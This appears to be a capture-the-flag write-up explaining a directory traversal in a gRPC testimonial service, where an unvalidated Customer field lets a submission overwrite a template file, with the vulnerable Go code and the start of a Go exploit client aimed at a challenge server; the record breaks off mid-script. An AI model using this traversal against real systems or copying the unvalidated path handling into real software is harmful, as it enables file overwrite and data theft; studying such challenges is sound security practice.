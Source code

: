 On the server, there is a **directory traversal** vulnerability in the handling of the client path. The Testimonial **Customer field** is used to specify the file location in which the testimonial will be stored. If this field is not properly validated and the inclusion of relative paths is allowed, we can manipulate this field to navigate outside the expected directory, like the root directory.

We will use this method to overwrite the content of the html website, which is located in the path `../../view/home/index.templ`.

```go

func GetTestimonials() []string {
	fsys := os.DirFS("public/testimonials")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}

templ Testimonials() {
  for _, item := range GetTestimonials() {
    <div class="col-md-4">
        <div class="card mb-4">
            <div class="card-body">
                <p class="card-text">"{item}"</p>
                <p class="text-muted">- Anonymous Testifier</p>
            </div>
        </div>
    </div>
  }
}
```

This is done by changing the path of `public/testimonials` to the `root directory /`, in this way it will read all the files inside the root directory, which is where the **flag** is located.

I use copilot to help me build a script in go that:
1. Set up a connection to the server
2. Use the connection to create a new client
3. Create a TestimonialSubmission message (replacing public/testimonial to /)
4. Call the SubmitTestimonial method

```go
package main

import (
	"context"
	"fmt"
	"log"
	"os"

	pb "pb"

	"google.golang.org/grpc"
)

func main() {
	// Set up a connection to the server.
	conn, err := grpc.Dial("83.136.249.230:43168", grpc.WithInsecure())
	if err != nil {
		log.Fatalf("Did not connect: %v", err)
```